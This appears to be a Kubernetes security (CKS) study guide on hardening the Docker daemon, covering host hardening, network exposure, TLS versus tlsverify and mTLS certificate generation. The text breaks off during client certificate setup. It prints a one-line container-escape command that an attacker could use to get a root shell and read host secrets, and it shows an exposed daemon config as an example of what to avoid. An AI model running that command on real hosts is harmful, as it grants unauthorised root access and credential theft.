# 17 — Docker Securing the Daemon

> **CKS Domain:** Cluster Setup & Hardening  
> **Weight:** Medium-High — Docker daemon security directly maps to container runtime security in the exam  
> **TL;DR:** An unsecured Docker daemon is a **root shell on the host**. Secure it in layers: harden the host → restrict network exposure → enforce TLS → require client certificate authentication.

---

## Table of Contents

1. [What is Docker?](#1-what-is-docker)
2. [What is the Docker Daemon?](#2-what-is-the-docker-daemon)
3. [Why Docker Daemon Security Matters](#3-why-docker-daemon-security-matters)
4. [The Attack Surface](#4-the-attack-surface)
5. [Layer 1 — Harden the Docker Host](#5-layer-1--harden-the-docker-host)
6. [Layer 2 — Control Network Exposure](#6-layer-2--control-network-exposure)
7. [Layer 3 — TLS Encryption (tls vs tlsverify)](#7-layer-3--tls-encryption-tls-vs-tlsverify)
8. [Layer 4 — Certificate-Based Authentication (mTLS)](#8-layer-4--certificate-based-authentication-mtls)
9. [Client-Side TLS Configuration](#9-client-side-tls-configuration)
10. [Complete Hardened Setup — End to End](#10-complete-hardened-setup--end-to-end)
11. [Real-World Attack Scenarios](#11-real-world-attack-scenarios)
12. [Security Checklist](#12-security-checklist)
13. [Concepts at a Glance](#13-concepts-at-a-glance)
14. [Commands Reference](#14-commands-reference)

---

## 1. What is Docker?

Docker is an open-source **containerisation platform** that lets you package an application together with everything it needs to run — code, runtime, libraries, environment variables, config files — into a single portable unit called a **container**.

### The Problem Docker Solves





### Containers vs Virtual Machines

A container is **not** a VM. It shares the host OS kernel, making it far lighter and faster to start — but also meaning that container security flaws can directly affect the host.



| Property | Virtual Machine | Docker Container |
|----------|----------------|-----------------|
| **OS** | Full guest OS per VM | Shares host kernel |
| **Boot time** | Minutes | Milliseconds |
| **Size** | GBs | MBs |
| **Isolation** | Strong (hardware-level) | Process-level (namespaces) |
| **Performance** | Overhead from hypervisor | Near-native |
| **Portability** | Heavy to move | Lightweight, registry-based |
| **Security boundary** | Hypervisor | Kernel namespaces + cgroups |

### Core Docker Concepts

| Concept | What it is | Analogy |
|---------|-----------|---------|
| **Image** | Read-only blueprint for a container | A class definition |
| **Container** | A running instance of an image | An object instantiated from a class |
| **Dockerfile** | Recipe to build an image | Source code |
| **Registry** | Remote store for images (Docker Hub, ECR) | GitHub for images |
| **Volume** | Persistent storage that survives container restarts | An external hard drive |
| **Network** | Virtual network connecting containers | A private LAN |

### Why We Use Docker



### A Simple Docker Workflow



---

## 2. What is the Docker Daemon?

When you type `docker run nginx`, you're not directly starting a container. You're talking to the **Docker Daemon** — the background service that does all the actual work.

### The Daemon's Role



### What the Daemon Does — Step by Step

When you run `docker run -d -p 8080:80 nginx`:



### The Daemon's Internal Components

| Component | Binary | Responsibility |
|-----------|--------|---------------|
| **dockerd** | `/usr/bin/dockerd` | API server, image management, network/volume management |
| **containerd** | `/usr/bin/containerd` | Container lifecycle (start/stop/exec) via gRPC |
| **containerd-shim** | `/usr/bin/containerd-shim` | Keeps container running if containerd restarts |
| **runc** | `/usr/sbin/runc` | OCI runtime — creates actual Linux namespaces and cgroups |

### The Daemon's Privileges

The Docker daemon runs as **root** on the host. This is a deliberate design choice — managing namespaces, cgroups, and network interfaces requires root privileges. This is also why a compromised daemon is so dangerous.

```bash
# Verify the daemon runs as root
ps aux | grep dockerd
# root      1234  0.0  0.5 /usr/bin/dockerd -H fd:// ...
# ↑ root

# The daemon's socket is owned by root
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker 0 ...
# Only root + docker group can access it
```

### Why Does the Daemon Need to Run as Root?



> 💡 **Rootless Docker** is an alternative where the daemon and containers run as a non-root user. It provides better security but has some limitations (no host port < 1024, some storage drivers unavailable). It's increasingly viable for production but not yet universal.

### How the Daemon Talks to Containers



---

## 3. Why Docker Daemon Security Matters

The Docker daemon (`dockerd`) runs as **root** and has the ability to:
- Create and delete any container
- Mount any host directory into a container
- Modify host network interfaces
- Load kernel modules
- Bypass file permissions

**Whoever controls the Docker daemon controls the host.**



### The Privilege Escalation in One Command

If an attacker gets any access to the Docker API:

```bash
# Attacker runs this — gains interactive root shell on the host
docker run --rm -it \
  --privileged \
  --volume /:/hostfs \
  --network host \
  alpine \
  chroot /hostfs /bin/bash

# Now the attacker has:
# - Root shell
# - Full host filesystem at /
# - Host network stack
# - Can read /etc/shadow, .ssh/id_rsa, kubelet certs, etc.
```

---

## 4. The Attack Surface

Docker's attack surface has **four entry points**, each needing different protections:



### Security Levels Comparison

| Configuration | Encrypted | Authenticated | Safe? | Port |
|--------------|-----------|---------------|-------|------|
| Unix socket only (default) | N/A (local IPC) | File permissions | ✅ For local use | N/A |
| `tcp://host:2375` | ❌ No | ❌ No | ❌ Never | 2375 |
| `tcp://host:2376` + `tls: true` | ✅ Yes | ❌ No | ⚠️ Partially | 2376 |
| `tcp://host:2376` + `tlsverify: true` | ✅ Yes | ✅ Yes (client cert) | ✅ Yes | 2376 |

> 🔑 **The critical distinction:** `tls: true` encrypts traffic but **any** client can connect. `tlsverify: true` encrypts **and** requires the client to present a CA-signed certificate. Always use `tlsverify`.

---

## 5. Layer 1 — Harden the Docker Host

Before configuring Docker's network exposure, the underlying host must be hardened. A Docker daemon is only as secure as the system it runs on.



### SSH Hardening

```bash
# Edit SSH daemon configuration
vim /etc/ssh/sshd_config

# Key settings to enforce:
PermitRootLogin no              # Disable direct root login
PasswordAuthentication no       # Force SSH key auth
PubkeyAuthentication yes        # Enable public key auth
AuthorizedKeysFile .ssh/authorized_keys
AllowUsers deploy-user ops-user  # Whitelist specific users only
Port 2222                        # Optional: non-default port

# Restart SSH to apply
systemctl restart sshd
```

### Firewall — Block the Docker API

```bash
# Using ufw (Ubuntu)
ufw default deny incoming
ufw allow 22/tcp             # SSH
ufw allow 443/tcp            # HTTPS (if applicable)
# Do NOT open 2375 or 2376 unless specifically needed and secured

# If you must allow 2376, restrict to specific IPs:
ufw allow from 192.168.1.100 to any port 2376 proto tcp

# Using iptables directly
iptables -A INPUT -p tcp --dport 2375 -j DROP           # Block unencrypted API
iptables -A INPUT -p tcp --dport 2376 -s 192.168.1.0/24 -j ACCEPT  # Allow TLS from LAN
iptables -A INPUT -p tcp --dport 2376 -j DROP           # Block TLS from elsewhere
```

### Principle of Least Privilege

```bash
# Check who is in the docker group (= who has root equivalent access)
getent group docker
# docker:x:999:ubuntu,jenkins   ← each person here has root on this host

# Remove a user from docker group if not needed
gpasswd -d username docker

# Check for world-writable socket (should be group-restricted)
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker 0 ...
# ✅ Only root and docker group can access
```

---

## 6. Layer 2 — Control Network Exposure

By default, Docker only listens on the Unix socket — safe for local use. Exposing it externally should be an **explicit, deliberate choice**.

### Default (Safe) State



### Exposing on Private Network Only

When you need remote access, bind to the **private IP only** — never to `0.0.0.0` without additional firewall controls.

```json
// /etc/docker/daemon.json
{
  "hosts": ["tcp://192.168.1.10:2375"]
}
```

> ⚠️ This is still **not safe** — traffic is unencrypted. This is just Step 1 of network exposure. Always pair with TLS.

### Binding to 0.0.0.0 — The Danger

```json
// ❌ NEVER DO THIS in production
{
  "hosts": ["tcp://0.0.0.0:2375"]
}
```



### Private IP Best Practice

```bash
# Check which IP is private (LAN) vs public (internet-facing)
ip addr show

# Only bind to the private/internal interface IP:
# eth0: 192.168.1.10 (internal LAN) ← bind here
# eth1: 34.x.x.x    (public internet) ← never bind here

# Verify what dockerd is listening on after restart
ss -tlnp | grep dockerd
# tcp LISTEN 0 128 192.168.1.10:2376 0.0.0.0:* users:(("dockerd",pid=1234,fd=3))
```

---

## 7. Layer 3 — TLS Encryption (tls vs tlsverify)

### `tls: true` — Encryption Only (Insufficient)

With `tls: true`, Docker encrypts the TCP connection. However, it **does not require the client to present a certificate**. Any client with the server CA cert can connect.



**daemon.json with encryption only:**

```json
{
  "hosts": ["tcp://192.168.1.10:2376"],
  "tls": true,
  "tlscert": "/var/docker/server.pem",
  "tlskey": "/var/docker/serverkey.pem"
}
```

---

### `tlsverify: true` — Encryption + Client Auth (✅ Correct)

With `tlsverify: true`, the server **requires the client to present a certificate signed by the CA**. Only clients with a valid, CA-issued certificate can connect.



**daemon.json with full mTLS:**

```json
{
  "hosts": ["tcp://192.168.1.10:2376"],
  "tls": true,
  "tlsverify": true,
  "tlscert": "/var/docker/server.pem",
  "tlskey": "/var/docker/serverkey.pem",
  "tlscacert": "/var/docker/cacert.pem"
}
```

### tls vs tlsverify at a Glance

| Setting | What it does | Client needs |
|---------|-------------|-------------|
| `tls: true` | Encrypts the channel | Just the server's CA cert |
| `tlsverify: true` | Encrypts **and** verifies client cert | CA cert + client cert + client key |

> ✅ **Always use `tlsverify: true`**. Using `tls: true` alone is like having a locked door with a window that anyone can reach through.

---

## 8. Layer 4 — Certificate-Based Authentication (mTLS)

### Certificate Hierarchy



### Certificate Generation — Step by Step

```bash
# ============================================================
# STEP 1: Create the Certificate Authority (CA)
# ============================================================
# Generate CA private key (keep this VERY secure)
openssl genrsa -aes256 -out ca-key.pem 4096

# Generate CA certificate (self-signed, valid 5 years)
openssl req -new -x509 \
  -days 1825 \
  -key ca-key.pem \
  -sha256 \
  -out ca.pem \
  -subj "/C=US/ST=CA/O=MyOrg/CN=Docker-CA"

# ============================================================
# STEP 2: Create the Server Certificate (for dockerd)
# ============================================================
openssl genrsa -out server-key.pem 4096

openssl req -subj "/CN=192.168.1.10" \  # Must match the server's IP/hostname
  -sha256 -new \
  -key server-key.pem \
  -out server.csr

# Sign the server cert with our CA
echo subjectAltName = IP:192.168.1.10,IP:127.0.0.1 >> extfile.cnf
echo extendedKeyUsage = serverAuth >> extfile.cnf

openssl x509 -req \
  -days 365 \
  -sha256 \
  -in server.csr \
  -CA ca.pem \
  -CAkey ca-key.pem \
  -CAcreateserial \
  -out server.pem \
  -extfile extfile.cnf

# ============================================================
# STEP 3: Create Client Certificates (one per user/service)
# ============================================================
openssl genrsa -out client-key.pem 4096

openssl req -subj '/CN=client' \
  -new \
  -key client-key.pem \
  -out client.csr

# Client certs need extendedKeyUsage = clientAuth
